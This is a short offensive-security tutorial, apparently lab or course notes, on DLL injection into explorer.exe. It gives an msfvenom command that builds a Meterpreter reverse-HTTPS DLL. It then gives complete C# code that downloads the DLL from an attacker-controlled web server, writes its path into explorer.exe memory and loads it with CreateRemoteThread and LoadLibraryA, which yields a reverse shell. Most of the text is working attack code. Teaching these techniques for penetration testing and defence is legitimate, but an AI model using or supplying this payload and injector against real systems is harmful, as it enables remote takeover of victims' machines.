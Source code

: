 Generating Meterpreter shellcode:

    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f dll -o /met.dll

To implement the DLL injection technique, we are going to create a new C# .NET Standard Console app that will fetch our DLL from the attacker's web server. We'll then write the DLL to disk since LoadLibrary only accepts files present on disk.

    using System;
    using System.Diagnostics;
    using System.Net;
    using System.Runtime.InteropServices;
    using System.Text;
    
    namespace Inject
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
            static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
            [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
            public static extern IntPtr GetModuleHandle(string lpModuleName);
    
            static void Main(string[] args)
            {
                ***<comment>Downloading a DLL and writing it to disk<comment>***
                String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
                String dllName = dir + "\\met.dll";
    
                WebClient wc = new WebClient();
                wc.DownloadFile("http://<kali ip>/met.dll", dllName);
    
                ***<comment>OpenProcess called on explorer.exe<comment>***
                
                Process[] expProc = Process.GetProcessesByName("explorer");
                int pid = expProc[0].Id;
    
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                
                ***<comment>Allocating and copying the name of the DLL into explorer.exe<comment>***
              
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                IntPtr outSize;
                Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

                ***<comment>Locating the address of LoadLibraryA<comment>***
                
                IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

                 ***<comment>Creating a remote thread with argument<comment>***
                
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
            }
        }
    }


When we compile and execute the completed code, it fetches the Meterpreter DLL from the web server and gives us a reverse shell
